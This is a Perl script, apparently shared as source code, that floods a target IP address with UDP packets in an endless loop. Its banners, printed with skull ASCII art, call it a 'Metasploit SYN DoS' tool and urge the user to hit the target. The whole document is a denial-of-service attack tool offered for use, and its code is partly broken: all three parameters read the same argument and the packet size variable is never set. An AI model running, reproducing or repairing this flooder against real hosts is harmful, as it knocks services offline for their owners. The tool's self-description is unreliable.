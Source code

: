 



#!/usr/bin/perl
use Socket;
$ARGC=@ARGV;
my ($ip,$port,$size,$time);
if ($ARGC !=1) {
printf "drx@undernet perl syn ip\n";
exit(1);
}
$ip=$ARGV[0];
$port=$ARGV[0];
$time=$ARGV[0];
socket(crazy, PF_INET, SOCK_DGRAM, 17);
$iaddr = inet_aton("$ip");

printf "[1;31m
Metasploit SYNN DoSS ip DRX @ UNDERNET.ORG
\n";
printf "[1;33m  
███████████████████████████ 
███████▀▀▀░░░░░░░▀▀▀███████
████▀░░░░░░░░░░░░░░░░░▀████
███│░░░░░░░░░░░░░░░░░░░│███
██▌│░░░░░░░░░░░░░░░░░░░│▐██
██░└┐░░░░░░░░░░░░░░░░░┌┘░██
██░░└┐░░░░░░░░░░░░░░░┌┘░░██
██░░┌┘▄▄▄▄▄░░░░░▄▄▄▄▄└┐░░██
██▌░│██████▌░░░▐██████│░▐██
███░│▐███▀▀░░▄░░▀▀███▌│░███
██▀─┘░░░░░░░▐█▌░░░░░░░└─▀██
██▄░░░▄▄▄▓░░▀█▀░░▓▄▄▄░░░▄██
████▄─┘██▌░░░░░░░▐██└─▄████
█████░░▐█─┬┬┬┬┬┬┬─█▌░░█████
████▌░░░▀┬┼┼┼┼┼┼┼┬▀░░░▐████
█████▄░░░└┴┴┴┴┴┴┴┘░░░▄█████
███████▄░░░░░░░░░░░▄███████
██████████▄▄▄▄▄▄▄██████████
███████████████████████████
 \n";
printf "[1;35m      💀  Closing connection tcp/ip 💀  \n";
printf "[1;38m     °°°°° $ip °°°°° \n";
printf "[0;36m    °°°°° Try to get that brute force on target °°°°° \n";
printf "[0;36m                      •°D°•°3•°3•°P•°L•°0•°0•°Y•°I•°N•°G•° \n";


if ($ARGV[1] ==0 && $ARGV[2] ==0) {
goto randpackets;
}
if ($ARGV[1] !=0 && $ARGV[2] !=0) {
system("(sleep $time;killall -9 udp) &");
goto packets;
}
if ($ARGV[1] !=0 && $ARGV[2] ==0) {
goto packets;
}
if ($ARGV[1] ==0 && $ARGV[2] !=0) {
system("(sleep $time;killall -9 udp) &");
goto randpackets;
}
packets:
for (;;) {
$size=$rand x $rand x $rand;
send(crazy, 30000, $size, sockaddr_in($port, $iaddr));
}
randpackets:
for (;;) {
$size=$rand x $rand x $rand;
$port=int(rand 92990) +0;
send(crazy, 30000, $size, sockaddr_in($port, $iaddr));
}
